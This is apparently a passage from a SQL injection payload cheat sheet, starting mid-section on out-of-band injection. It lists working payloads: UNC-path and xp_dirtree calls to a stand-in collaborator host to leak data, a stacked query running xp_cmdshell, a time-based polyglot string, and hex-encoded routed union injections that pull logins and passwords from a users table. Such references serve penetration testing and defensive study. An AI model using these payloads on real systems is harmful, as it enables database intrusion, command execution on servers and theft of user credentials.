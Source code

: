   ```sql
  LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
  SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
  ```

* MSSQL

  ```sql
  SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
  exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
  ```

## Stacked Based Injection

Stacked Queries SQL Injection is a technique where multiple SQL statements are executed in a single query, separated by a delimiter such as a semicolon (`;`). This allows an attacker to execute additional malicious SQL commands following a legitimate query. Not all databases or application configurations support stacked queries.

```sql
1; EXEC xp_cmdshell('whoami') --
```

## Polyglot Injection

A polygot SQL injection payload is a specially crafted SQL injection attack string that can successfully execute in multiple contexts or environments without modification. This means that the payload can bypass different types of validation, parsing, or execution logic in a web application or database by being valid SQL in various scenarios.

```sql
SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/
```

## Routed Injection

> Routed SQL injection is a situation where the injectable query is not the one which gives output but the output of injectable query goes to the query which gives output. - Zenodermus Javanicus

In short, the result of the first SQL query is used to build the second SQL query. The usual format is `' union select 0xHEXVALUE --` where the HEX is the SQL injection for the second query.

**Example 1**:

`0x2720756e696f6e2073656c65637420312c3223` is the hex encoded of `' union select 1,2#`

```sql
' union select 0x2720756e696f6e2073656c65637420312c3223#
```

**Example 2**:

`0x2d312720756e696f6e2073656c656374206c6f67696e2c70617373776f72642066726f6d2075736572732d2d2061` is the hex encoded of `-1' union select login,password from users-- a`.

```sql
-1' union select 0x2d312720756e696f6e2073656c656374206c6f67696e2c70617373776f72642066726f6d2075736572732d2d2061 -- a
```
